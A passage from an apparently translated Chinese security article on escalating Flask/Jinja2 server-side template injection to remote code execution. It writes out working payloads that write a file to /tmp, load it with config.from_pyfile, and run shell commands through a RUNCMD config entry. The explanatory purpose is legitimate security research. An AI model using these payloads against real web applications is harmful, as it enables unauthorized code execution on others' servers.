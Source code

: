 这里有一对有意思的东西。最明显的就是将一个文件的路径作为参数传递进去，并且针对文件中的内容使用`compile`函数。如果我们能向操作系统中写文件的话那事情就变得简单了，不是吗？嗯，正如我们刚才讨论过的，我们可以做到！我们可以使用之前提到的`file`类不仅去读文件，而且也可以向目标服务器的可写入路径中写文件。然后我们再通过SSTI漏洞调用`from_pyfile`方法去`compile`文件并执行其中的内容。这就是一个二次进攻。首先，将`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('<malicious code here>'') }}`注入到SSTI漏洞点。然后在通过注入`{{ config.from_pyfile('/tmp/owned.cfg') }}`调用编译过程。该代码在编译时将会被执行。这就实现了远程代码执行。

让我来更深入地研究一下。虽然执行代码已经足够了，但是我们为了执行每个代码块必须经过多个步骤，这些过程是很乏味的。让我们充分地利用`from_pyfile`方法来达到我们预期的目的，并且向config对象中添加一些有用的东西。将`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}`注入到SSTI漏洞点。这就会在远程服务器上写一个文件，当其被编译的时候，就可以从`subprocess`模块中导入`check_output`方法，并将其设置成一个名为`RUNCMD`变量。如果你回忆一下之前的文章，你就会知道因为`RUNCMD`为一个大写的变量名，就可以被添加到Flask`config`对象中。

![](http://drops.javaweb.org/uploads/images/b409311aad6274551b95822ccb78279cfb7ac8da.jpg)

注入`{{ config.from_pyfile('/tmp/owned.cfg') }}`来将新的项目添加到config对象中。注意以下两幅图一前一后的差异。

![](http://drops.javaweb.org/uploads/images/4b685002daf3b71f9a2ae1fb18554c6040c8df43.jpg)

![](http://drops.javaweb.org/uploads/images/6d3d8b73930fd6ff030277606d09a0108b23a1d4.jpg)

现在我们就可以调用新的配置选项来执行远程命令了。可以将`{{ config['RUNCMD']('/usr/bin/id',shell=True) }}`注入到SSTI漏洞点来进行证明。

![](http://drops.javaweb.org/uploads/images/189c980bc25ac71353271498a2e351ce478c0fca.jpg)

远程代码成功执行。

0x02 Conclusion
===============

* * *

现在，我们可以进行Flask/Jinja2模板沙盒逃逸了，并且可以得出结论：SSTI在Flask/Jinja2环境中的影响是巨大的。